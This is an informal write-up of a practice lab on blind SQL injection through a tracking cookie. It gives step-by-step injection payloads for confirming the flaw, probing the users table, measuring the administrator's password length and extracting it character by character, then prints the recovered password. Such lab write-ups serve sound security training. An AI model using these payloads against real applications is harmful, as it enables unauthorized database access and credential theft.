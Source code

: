 # SQL injection labs

## Lab: Blind SQL injection with conditional responses



The application uses a tracking cookie for analytics

The database contains a different table called <mark style="color:red;">**`users`**</mark>, with columns called <mark style="color:red;">**`username`**</mark> and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the <mark style="color:red;">**`administrator`**</mark> user.



**`Cookie: TrackingId=St10uonYH4szuC66`**

```sql
Cookie: TrackingId=St10uonYH4szuC66' AND '1'='1 #true
Cookie: TrackingId=St10uonYH4szuC66' AND '1'='2  #false
```



ok i will use limit

```sql
' AND (SELECT 'X' from users limit 1)='x'--
```

<figure><img src="../../../.gitbook/assets/image (132).png" alt=""><figcaption><p>Welcome back!</p></figcaption></figure>

ok i will try use table users and column username

```sql
AND+(SELECT+username+FROM+users+WHERE+username='administrator')='administrator'--
```

<figure><img src="../../../.gitbook/assets/image (133).png" alt=""><figcaption></figcaption></figure>

ok in this case i'll  tracking passsword using SUBSTRING() function to extract a single character from the password



```sql
' AND (SELECT username FROM users WHERE username='administrator' and LENGTH(password)>1)='administrator'--
```

<figure><img src="../../../.gitbook/assets/image (134).png" alt=""><figcaption></figcaption></figure>

i will try numbers 1 to 19 all valid  password >19

go to intruder  > cluster bomb

```sql
'+AND+(SELECT+substring(password,1,1)+FROM+users+WHERE+username%3d'administrator')%3d'8'--
```

<figure><img src="../../../.gitbook/assets/image (135).png" alt=""><figcaption></figcaption></figure>

```
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20
8oiqhj3w6k9bfypfq7j1
```

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

offfffffffffffffffffffffff! :smile: :tada:
